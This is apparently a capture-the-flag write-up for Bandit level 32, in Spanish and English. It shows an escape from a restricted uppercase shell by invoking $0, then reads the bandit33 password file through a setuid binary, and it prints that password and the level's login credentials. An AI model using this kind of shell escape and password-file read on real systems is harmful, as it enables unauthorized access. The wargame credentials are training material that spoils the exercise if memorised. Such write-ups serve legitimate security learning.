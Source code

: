 ## Objetivo
After all this `git` stuff its time for another escape. Good luck!
## Datos de acceso al nivel 
bandit32
rmCBvG56y58BXzv98yZGdO7ATVL5dW8y
## Solución 
```bash
WELCOME TO THE UPPERCASE SHELL
>> ls
sh: 1: LS: not found
>> 0
sh: 1: 0: not found
>> $0
$ ls
uppershell
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Feb 21 22:03 .
drwxr-xr-x 70 root     root      4096 Feb 21 22:04 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Feb 21 22:03 uppershell
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
$
```
## Notas adicionales 

## Referencias